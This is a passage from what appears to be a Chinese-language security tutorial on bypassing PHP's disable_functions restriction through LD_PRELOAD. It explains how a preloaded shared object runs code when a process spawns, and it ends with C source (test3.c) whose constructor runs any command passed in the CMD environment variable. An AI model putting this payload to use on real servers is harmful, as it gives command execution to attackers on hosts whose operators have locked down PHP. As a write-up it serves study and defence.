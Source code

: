 可以在top中看到当前占用最高的一项是其实是/bin/sh，因为死循环一直卡着。

![1567074410640](通过LD_PRELOAD绕过disable_functions.assets/1567074410640.png)

是由test.php 派生出来的，因此我没有安装sendmail也执行成功的原因是sh同样调用了geteuid函数

![1567074547553](通过LD_PRELOAD绕过disable_functions.assets/1567074547553.png)

![1567074586846](通过LD_PRELOAD绕过disable_functions.assets/1567074586846.png)



## 0x03 通用化

回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，比如geteuid（）。

在GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行` __attribute__((constructor))` 修饰的函数。

```
__attribute__((constructor))
constructor参数让系统执行main()函数之前调用函数(被__attribute__((constructor))修饰的函数)
__attribute__((destructor))
destructor参数让系统在main()函数退出或者调用了exit()之后,(被__attribute__((destructor))修饰的函数)
```

因此，只要php中设置了LD_PRELOAD，并派生了新的进程，将会执行LD_PRELOAD的文件中`__attribute__((constructor))`里的函数

test3.c

```
#include <stdlib.h>
#include <string.h>
__attribute__((constructor))void payload() {
    unsetenv("LD_PRELOAD");
    const char* cmd = getenv("CMD");
    system(cmd);
}
```
